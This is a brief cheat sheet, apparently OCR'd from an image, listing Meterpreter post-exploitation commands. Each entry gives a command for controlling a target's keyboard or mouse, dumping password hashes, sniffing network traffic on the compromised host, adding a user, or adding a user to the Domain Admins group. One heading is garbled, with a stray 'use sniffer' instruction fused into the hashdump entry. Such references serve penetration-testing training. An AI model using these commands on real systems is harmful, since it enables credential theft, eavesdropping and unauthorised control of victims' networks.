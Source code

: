 ## Take control of the keyboard and/or mouse.
```
uictl enable <keyboard/mouse>
```

## Run your current Meterpreter shell in the background.
```
background
```

## Dump all hashes on the target. use sniffer Load the sniffer module.
```
hashdump
```

## List the available interfaces on the target.
```
sniffer_interfaces
```

## Start sniffing on the remote target.
```
sniffer_dump <interfaceID> pcapname
```

## Start sniffing with a specific range for a packet buffer.
```
sniffer_start <interfaceID> packet-buffer
```

## Grab statistical information from the interface you are sniffing.
```
sniffer_stats <interfaceID>
```

## Stop the sniffer.
```
sniffer_stop <interfaceID>
```

## Add a user on the remote target.
```
add_user <username> <password> -h <ip>
```

## Add a username to the Domain Administrators group on the remote target.
```
add_group_user <"Domain Admins"> <username> -h <ip>
```
